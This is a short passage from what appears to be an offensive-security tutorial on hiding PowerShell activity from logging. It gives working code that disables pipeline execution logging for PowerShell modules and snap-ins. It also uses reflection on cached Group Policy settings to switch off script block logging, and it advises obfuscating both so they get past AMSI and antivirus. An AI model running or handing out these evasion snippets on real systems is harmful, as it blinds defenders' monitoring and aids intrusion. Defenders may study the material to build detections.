 We can also abuse the log pipeline itself to avoid detection.

```powershell
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false
```

We can also use our Powershell session to modify the Group Policy settings with respect to our session.  

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

Note that these measures must bypass antivirus when they are used. Apply already discussed obfuscation techniques to get your logging avoidance solutions through AMSI. 
